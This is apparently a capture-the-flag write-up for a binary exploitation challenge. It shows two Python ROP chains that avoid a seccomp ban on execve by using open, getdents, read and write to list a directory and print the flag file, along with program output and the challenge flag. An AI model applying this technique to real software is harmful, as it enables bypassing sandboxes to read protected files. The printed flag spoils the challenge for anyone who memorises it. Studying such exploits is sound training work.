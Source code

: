 # RiteOfPassage

### Category

Pwn

### Description

You think you know how to ROP ?
The flag is in the hello/ folder.
Oh and uuuh, I think I might have forbidden execve and execveat..
Note : Use the SUID wrapper to flag 

Format : **Hero{flag}**  
Author : **iHuggsy**

### Write up

We know that execve and exeveat are forbidden.

We can do this in two steps :

-- Step 1

Syscalls :
-   Open (the flag folder)
-   Getdents (on the fd)
-   Write (getdents to stdout)

```py
    """
    Open "flag"
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # -> Start of .data
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0067616c66) 
    PAYLOAD += p64(mov_rdi_eax) # -> Write "flag" in .data
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000002) # 0x2 : Open
    PAYLOAD += p64(pop_rdx)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(pop_rsi)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(syscall)

    """
    Getdents (from .)
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000003) # Usually, fd is 3
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000004e) # 0x4e : Getdents
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # -> Start of .data, overwrite ;)
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x00000056) # -> For 0x56 bytes
    PAYLOAD += p64(syscall)

    """
    write getdents
    """

    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000001) # 0x1 : write
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000001) # 1 : stdout
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # Start of .data
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x000000056) # Write 0x56 bytes

    PAYLOAD += p64(syscall) 

    # Clean exit (1337)
    PAYLOAD += p64(xor_rax)
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000000000003c) # 0x3c : exit
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000001337) # 1337 
    PAYLOAD += p64(syscall) 

```
We get the file name in here ! ```hello```.
> b">>>I am now going to translate your sentence to computerWe actually don't care about what you think. Bye.\n\x8a\xb7,\x00\x00\x00\x00\x00\xb5\xfe\x99B\x9b\xb5\xb8y \x00hello\x00\x00\x10\x00\x00\x00\x00\x00\x08\x89\xb7,\x00\x00\x00\x00\x008\xf4`b\xcb\xc7\x0cz\x18\x00.\x00\x00\x00\x00\x04\x80\xb7,\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\x7f\x18\x00..\x00\x00\x00\x04\x00\x80\x00\x00\x00\x00"

-- Step 2

Syscalls :
-   Open (the flag/hello file)
-   Read (the flag from the fd)
-   Write (content of the file to stdout)

```py

    """
    Open "flag/hello"
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # Start of .data again
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x67616c66) 
    PAYLOAD += p64(mov_rdi_eax) # Write "flag"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af004) # Start of .data + 4
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x6c65682f) 
    PAYLOAD += p64(mov_rdi_eax) # Write "/hel"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af008) # Start of .data + 8
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x6f6c)
    PAYLOAD += p64(mov_rdi_eax) # Write "lo\0\0"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # Start of our null terminated string

    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000002) # 0x2 : Open
    PAYLOAD += p64(pop_rdx)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(pop_rsi)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(syscall)

    

    """
    read flag/hello
    """
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000000000000) # 0x0 : read
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000003) # fd is usually 3 :)
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # -> Overwrite start of .data
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x00000050) # read 0x50
    PAYLOAD += p64(syscall)


    """
    write to stdout
    """


    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000001) # 0x1 : write
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000001) # 1 : stdout
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # start of .data (containing the flag)
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x000000050) # 0x50
    PAYLOAD += p64(syscall)

    # Exit
    PAYLOAD += p64(xor_rax)
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000000000003c) 
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000001337)
    PAYLOAD += p64(syscall)
```

And sure enough
> b">>>I am now going to translate your sentence to computerWe actually don't care about what you think. Bye.\nHero{R0P_m4sT3R_1n_S1gHt}\n\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00"

### Flag

Hero{R0P_m4sT3R_1n_S1gHt}